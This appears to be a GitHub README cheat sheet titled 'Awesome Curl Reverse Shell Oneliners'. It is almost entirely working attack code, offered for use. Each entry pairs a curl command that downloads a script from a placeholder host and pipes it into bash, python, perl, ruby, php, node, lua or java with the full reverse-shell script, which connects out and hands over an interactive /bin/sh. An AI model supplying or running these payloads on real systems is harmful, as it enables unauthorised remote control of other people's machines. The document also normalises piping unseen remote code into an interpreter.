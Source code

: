 <h1 align="center"><b>Awesome Curl Reverse Shell Oneliners</b></h1>

![image](https://github.com/user-attachments/assets/4e9e721d-5d9e-4e55-bcf2-6bde75d9b3d8)



<br>
<br>

Bash Reverse Shell

```bash

curl -s http://example.com/shell.sh | bash

```

shell.sh:

```bash

#!/bin/bash
bash -i >& /dev/tcp/127.0.0.1/1234 0>&1

```

Bash Reverse Shell using mkfifo

```bash

curl -s http://example.com/shell_fifo.sh | bash

```

shell_fifo.sh:

```bash

#!/bin/bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 127.0.0.1 1234 > /tmp/f

```

Python 2 Reverse Shell

```bash

curl -s http://example.com/shell_py2.py | python

```

shell_py2.py:

```bash

import socket, subprocess, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 1234))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/sh", "-i"])

```

Python 3 Reverse Shell

```bash

curl -s http://example.com/shell_py3.py | python3

```

shell_py3.py:

```bash

import socket, subprocess, os
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("127.0.0.1", 1234))
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)
subprocess.call(["/bin/sh", "-i"])

```

Perl Reverse Shell

```bash

curl -s http://example.com/shell.pl | perl

```

shell.pl:

```bash

#!/usr/bin/perl
use Socket;
$i="127.0.0.1";
$p=1234;
socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));
if(connect(S,sockaddr_in($p,inet_aton($i)))){
  open(STDIN,">&S");
  open(STDOUT,">&S");
  open(STDERR,">&S");
  exec("/bin/sh -i");
};


```

Ruby Reverse Shell

```bash

curl -s http://example.com/shell.rb | ruby

```

shell.rb:

```bash

#!/usr/bin/env ruby
require 'socket'
require 'open3'

def exec_cmd(cmd)
  Open3.popen2e(cmd) do |stdin, stdout_and_stderr, wait_thr|
    stdout_and_stderr.each do |line|
      yield line
    end
  end
end

s = TCPSocket.open("127.0.0.1", 1234)

while (line = s.gets)
  exec_cmd(line.chomp) do |output|
    s.puts output
  end
end

```

PHP Reverse Shell

```bash

curl -s http://example.com/shell.php | php

```

shell.php:

```bash

<?php
$ip = '127.0.0.1';
$port = 1234;
$sock = fsockopen($ip, $port);
$proc = proc_open('/bin/sh', array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>

```

Netcat Reverse Shell

```bash

curl -s http://example.com/shell_nc.sh | bash

```

shell_nc.sh:

```bash

#!/bin/bash
nc -e /bin/sh 127.0.0.1 1234

```

OpenSSL Reverse Shell

```bash

curl -s http://example.com/shell_openssl.sh | bash

```

shell_openssl.sh:

```bash

#!/bin/bash
mkfifo /tmp/ssl; openssl s_client -quiet -connect 127.0.0.1:1234 < /tmp/ssl | /bin/sh > /tmp/ssl 2>&1; rm /tmp/ssl

```
Node.js Reverse Shell


```bash
curl -s http://example.com/shell.js | node



```

shell.js:

```bash

(() => {
    const net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    const client = new net.Socket();
    client.connect(1234, "127.0.0.1", () => {
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the node script from crashing
})();

```
Lua Reverse Shell

 
```bash
curl -s http://example.com/shell.lua | lua
```
shell.lua:

 
```bash
local host, port = "127.0.0.1", 1234
local socket = require("socket")
local tcp = socket.tcp()
tcp:connect(host, port)
while true do
  local cmd = tcp:receive()
  local handle = io.popen(cmd)
  local result = handle:read("*a")
  handle:close()
  tcp:send(result)
end
```

Java reverse shell

```bash
curl -s -o shell.java http://localhost/shell.java && javac shell.java | java shell
```

shell.java:

```bash

import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class shell {
    public static void main(String[] args) {
        try {
            Socket s = new Socket("127.0.0.1", 1234);
            InputStream in = s.getInputStream();
            OutputStream out = s.getOutputStream();
            Process p = new ProcessBuilder("/bin/sh").redirectErrorStream(true).start();
            InputStream pin = p.getInputStream();
            OutputStream pout = p.getOutputStream();
            while (!s.isClosed()) {
                while (in.available() > 0) pout.write(in.read());
                while (pin.available() > 0) out.write(pin.read());
                out.flush();
                pout.flush();
                try {
                    p.exitValue();
                    break;
                } catch (Exception e) {
                    // Process not finished yet
                }
            }
            p.destroy();
            s.close();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
